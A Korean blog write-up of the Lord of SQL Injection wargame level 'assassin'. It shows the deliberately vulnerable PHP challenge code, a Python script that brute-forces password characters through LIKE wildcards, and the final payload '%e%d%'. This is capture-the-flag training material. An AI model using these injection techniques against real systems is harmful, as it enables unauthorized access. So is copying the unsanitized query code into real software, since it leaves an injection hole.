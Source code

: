 ```yaml
---
title: "[Lord of SQL Injection] LoS - assassin 문제풀이"
date: 2018-08-03
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번에는 문제 이름이 몬스터 이름이 아니다.
`assassin` 문제인데, 개인적으로 재밌던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------
query : select id from prob_assassin where pw like ''
----------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

필터링이 `'(싱글쿼터)` 딱 한개만 있다.
그리고 `=` 대신에 `like`이 쓰였다.
처음에는 `'`를 우회하는 방법이 있을 거라고 생각 해 이 부분에 초점을 맞추어 문제를 풀어보려 했다.
그런데 아무리 해도 우회를 하는 방법을 찾을수가 없었다.  

그러다 눈에 띈 부분이 왜 `=`가 아니라 `like`을 사용 했을까 였다.
나는 단순히 `=`와 `like`가 동일하다고 생각했는데, 뭔가 다른 점이 있을 것 같았다.
그래서 구글에 `mysql like`이라고 검색을 해봤는데, `%`를 알게 되었다.
`like`을 사용한다면, `%`를 이용 해 특정 문자가 있는 행을 추출할 수 있다.
예를 들어 아래와 같은 쿼리문이 있다고 가정해보자.  

```mysql
select * from user where id like '%a%';
```

이 경우, `%`는 `모든 문자`를 의미하게 된다.
때문에 `%a%`라고 한다면, `a`의 앞뒤로 어떠한 문자가 있는 경우를 말한다.
즉, `man`, `woman` 등은 `a`의 앞뒤로 문자가 있어 조건에 부합하게 된다.
반면 `apple`는 `a`의 앞에 문자가 없기 때문에 조건에 맞지 않는다.

그래서 이 방법을 가지고 `assassin` 문제를 풀기로 했다.
가장 먼저 테스트 한 것은 그냥 `%`만 입력 해 보는 것이었다.
`pw`에 분명 문자가 있을테니, `pw`에 `뭐라도 문자가 있는 행`을 추출 해 보려 했다.
그런데 `Hello guest`가 출력되었다.
아마도 테이블에 `guest`가 `admin`보다 위에 있어 먼저 추출 된 것 같다.
그래서 이번에는 `%a%` 형태로 만들어서 하나하나 테스트 해 보기로 했다.
손으로 하려다가 귀찮아져서 아래와 같이 코드를 구현했다.  

```python
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=%"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for i in range(48, 128):
	try:
		query = url + chr(i) + "%"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		flag += chr(i)
		print "[+] Found :", flag

print "[+] Found password : ", flag
print "[+] End"
```

그런데 결과가 안나왔다.(눙물...)
그래서 이번에는 `Hello guest`가 출력되는 문자를 찾도록 조건문을 수정 해 다시 테스트 해 보았다.
그 결과 아래와 같은 문자들을 얻을 수 있었다.  

```bash
$ python ex.py 
[+] Start
[+] Find password
[+] Found : 0
[+] Found : 01
[+] Found : 012
[+] Found : 0129
[+] Found : 0129D
[+] Found : 0129DE
[+] Found : 0129DEF
[+] Found : 0129DEF_
[+] Found : 0129DEF_d
[+] Found : 0129DEF_de
[+] Found : 0129DEF_def
[+] Found password :  0129DEF_def
[+] End
```

아마도 테이블에서 `guest`와 `admin`의 `pw`가 같은 문자들로만 이루어져 있고, `guest`가 `admin`보다 위에 있어 `guest`만 출력되는 것 같다.
그래서 저 문자를 적절하게 조합하면 `admin`을 얻을 수 있지 않을까 생각 해, 이것저것 시도 해 보다 보니 아래와 같이 입력했을 때 문제를 풀 수 있었다.  

```plain
?pw=%e%d%
```

---

```php
-------------------------------------------------------------------------------
query : select id from prob_assassin where pw like '%e%d%'
-------------------------------------------------------------------------------

Hello admin
ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
ASSASSIN Clear!!
```